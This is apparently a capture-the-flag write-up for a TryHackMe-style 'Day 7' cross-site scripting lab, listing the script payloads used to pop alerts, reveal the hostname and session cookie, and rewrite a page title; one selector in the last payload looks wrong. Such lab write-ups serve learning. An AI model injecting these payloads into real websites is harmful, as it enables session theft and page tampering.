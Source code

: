 # Day 7
## Cross-site Scripting

This day's challenge is very interesting : xss.
First thing first we check by using a simple alert that that site is vulnerable to xss and it is.

![](images/day7/Q2.png "text")

Using <script>alert(“Hello World”)</script> .
Other questions are about the same topic but gathering different information like using the ip addr of the machine you're using (like the hin suggested with window.location.hostname)

```html
<script>alert(window.location.hostname)</script>
```
To get the cookie session I just used 

```html
<script>alert(document.cookie)</script>
```

For the task #4 just add a simple paragraph or an h1 with \<p\> or \<h1\>.

For the next one as you can find it in the source code too it'll call the function(answer) if the check on document.querySelector('#thm-title').textContent == 'I am a hacker'
Then we use it.

```html
<script>document.querySelector('THM ~ XSS Playground').textContent = 'I am a hacker'</script>
```
And that's it for today.


